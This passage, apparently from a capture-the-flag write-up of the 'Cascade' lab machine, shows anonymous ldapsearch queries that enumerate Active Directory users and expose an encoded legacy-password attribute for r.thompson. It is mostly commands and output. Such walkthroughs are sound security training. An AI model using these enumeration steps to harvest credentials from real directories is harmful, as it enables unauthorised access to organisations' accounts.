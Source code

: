 ```bash
root@darkness:~# ldapsearch -x -b 'dc=cascade,dc=local' -h 10.10.10.182 "(objectclass=*)"
```

Looking through the output, we can see that there is an object class called `user`. Let us query all users and look through them to find anything that could be of interest for us.

```bash
root@darkness:~# ldapsearch -x -b 'dc=cascade,dc=local' -h 10.10.10.182 "(objectclass=user)"
[...]
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
[...]
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
[...]
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
[...]
logonCount: 2
sAMAccountName: r.thompson
[...]
cascadeLegacyPwd: clk0bjVldmE=
```

Looking through all users, we get one user that has a unique attribute: `cascadeLegacyPwd`. Furthermore, the account has a logonCount greater than 0.

We can use another query to find all users that have logged in before.

```bash
root@darkness:~# ldapsearch -x -b 'dc=cascade,dc=local' -h 10.10.10.182 "(logonCount>=1)"
[...]
```

Or we can use grep to get the same result.

```bash
root@darkness:~# ldapsearch -x -b 'dc=cascade,dc=local' -h 10.10.10.182 "(objectclass=user)" | grep -E "logonCount: [1-9]" -A 1
logonCount: 5296
sAMAccountName: CASC-DC1$
--
logonCount: 13
sAMAccountName: arksvc
--
logonCount: 16
sAMAccountName: s.smith
--
logonCount: 2
sAMAccountName: r.thompson
--
logonCount: 1
sAMAccountName: util
```

Let us now focus on the `cascadeLegacyPwd` attribute. Filtering for the attribute, we only get one result: `r.thompson`.
